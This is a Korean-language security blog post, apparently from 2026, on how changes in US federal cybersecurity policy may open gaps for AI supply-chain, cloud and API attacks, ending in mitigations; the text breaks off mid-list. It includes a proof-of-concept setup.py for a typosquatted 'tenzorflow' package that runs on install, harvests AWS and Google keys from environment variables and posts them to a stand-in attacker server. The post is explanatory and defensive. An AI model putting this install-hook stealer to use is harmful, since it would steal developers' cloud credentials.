

# 2026 보안 정책과 사이버 위협의 변화

최근 발표된 트럼프 행정부의 사이버 보안 의제는 연방 기관의 효율성 강화와 공격적 사이버 방어 전략에 초점을 맞추고 있습니다. 이러한 정책적 변화는 인공지능(AI) 보안과 공급망 보안의 중요성을 재조명하며, 민관 협력의 패러다임을 전환하고 있습니다. 본 글에서는 새로운 정책 방향이 실제 기술적 보안 환경에 미치는 영향을 분석하고, 예상되는 위협 시나리오를 기술적으로 다룹니다.

## 개요 (Introduction)

2026년 2월, 트럼프 행정부는 연방 정부의 사이버 보안 청사진을 대대적으로 수정하겠다는 의지를 피력했습니다. Federal News Network의 보도에 따르면, 이번 의제의 핵심은 '정부 효율성'과 '주권 방어'입니다. 보안 전문가로서 이 소식을 접했을 때, 가장 먼저 든 생각은 "정책의 변화는 곧 공격자의 새로운 기회비용"이라는 점입니다.
정부가 규제를 완화하고 효율성을 강조하는 과정에서, 필연적인 '보안 공백(Gap)'이 발생하기 마련입니다. 특히 CISA(사이버보안 및 인프라보안국)의 역할 재정립과 연방 기관의 IT 현대화 가속화는 레거시 시스템과 클라우드 환경이 혼재되는 하이브리드 보안 환경에서의 취약점을 야기할 수 있습니다. 공격자들은 정부의 정책 변화 기간을 타깃으로 삼아, 혼란을 틈타 공급망 공급망(Supply Chain) 공격이나 AI 기반의 사회공학적 공격을 감행할 가능성이 높습니다.

## 기술적 분석 (Technical Analysis)

트럼프 행정부의 보안 의제 중 가장 주목해야 할 부분은 '공격적 사이버 작전'의 강화와 'AI 규제의 최소화'입니다. 기술적으로 볼 때, 이는 공격자와 방어자 간의 무기 경쟁이 AI 영역으로 확대됨을 의미합니다. 기관들이 AI 도입을 서두르는 과정에서, 적절한 보안 검증 없이 배포된 LLM(대규모 언어 모델)이나 생성형 AI 모델은 '모델 추출(Model Extraction)'이나 '적대적 공격(Adversarial Attack)'의 주요 표적이 됩니다.
또한, 연방 기관의 클라우드 이전 가속화는 잘 알려진 '잘못 구성된 클라우드 스토리지(Misconfigured S3 Bucket)' 문제와 같은 기본적인 취약점을 다시 부각시킵니다. 하지만 이번에는 단순한 노출을 넘어, 권한 상승(Privilege Escalation)을 통해 클라우드 관리 콘솔을 탈취하는 정교한 공격이 예상됩니다.
공격자들은 정부가 추진하는 '효율성' 명분하에 급하게 통합되는 API 인터페이스를 노릴 것입니다. 취약한 인증 메커니즘(Broken Authentication)을 가진 API를 통해 대량의 개인정보를 유출하거나, 내부 네트워크로의 횡적 이동(Lateral Movement)을 시도할 시나리오는 매우 현실적입니다.
아래 다이어그램은 정부의 AI 도입 가속화에 따라 발생할 수 있는 AI 공급망 공격의 흐름을 시각화한 것입니다.


## 실제 공격 예시 (Attack Example)

가상의 시나리오를 설정해봅시다. 정부가 규제 완화를 통해 손쉽게 외부 AI 라이브러리를 도입하려 할 때, 공격자는 인기 있는 Python 머신러닝 라이브러리의 타이포스쿼팅(Typosquatting) 기법을 사용합니다. 공격자는 `tensorflow` 대신 `tenzorflow`라는 악성 패키지를 PyPI에 등록합니다.
이 악성 패키지는 정상적인 기능을 수행하면서도, 백그라운드에서 사용자의 환경 변수(OS 환경 변수)를 스캔하여 AWS 키나 API 토큰을 탈취하는 코드를 포함하고 있습니다. 다음은 해당 악성 패키지의 `setup.py`에 포함될 수 있는 간단한 PoC(개념 증명) 코드입니다.
```python
import os
import requests
import base64
from setuptools import setup
def exfiltrate_data():
    # 환경 변수에서 민감한 키 탐지
    keys_of_interest = ['AWS_ACCESS_KEY_ID', 'AWS_SECRET_ACCESS_KEY', 'GOOGLE_API_KEY']
    stolen_data = {}
    for key in keys_of_interest:
        value = os.getenv(key)
        if value:
            stolen_data[key] = value
    if stolen_data:
        try:
            # 암호화하여 C2 서버로 전송
            encoded_data = base64.b64encode(str(stolen_data).encode()).decode()
            requests.post("https://attacker-controlled-server.com/collect", json={"data": encoded_data})
        except Exception:
            pass # 실패 시 묵묵히 무시하여 탐지 회피

# 설치 시 악성 함수 실행

exfiltrate_data()
setup(
    name='tenzorflow',
    version='2.15.0',
    packages=['tenzorflow'],
)
```
이처럼 보안 감사가 생략된 채 급하게 도입된 라이브러리들은 "Shadow IT"의 형태로 퍼져나가, 결국 방화벽 내부에서 데이터 유출 사고를 일으키는 파괴적인 경로가 됩니다.

## 완화 조치 (Mitigation)

이러한 진화하는 위협에 대응하기 위해서는 정부와 기관은 다음과 같은 구체적인 기술적 조치를 즉시 적용해야 합니다.
첫째, **소프트웨어 물품 명세서(SBOM, Software Bill of Materials) 도입의 강제화**입니다. 모든 외부 라이브러리와 AI 모델 출처를 명확히 추적할 수 있어야 하며, 개발 단계에서 의존성(dependency) 스캔 도구를 통해 악성 패키지 삽입을 사전에 차단해야 합니다.
둘째, **제로 트러스트(Zero Trust) 아키텍처의 실질적 구현**입니다. 단순히 네트워크 경계만 방어하는 것이 아니라, 모든 API 요청과 클라우드 접속 시도에 대해 엄격한 인증과 권한 확인을 수행해야 합니다. 특히 AI 모델 서버에 접근하는 계정에는 최소 권한 원칙(Least Privilege)을 적용해야 합니다.
셋째, **AI 보
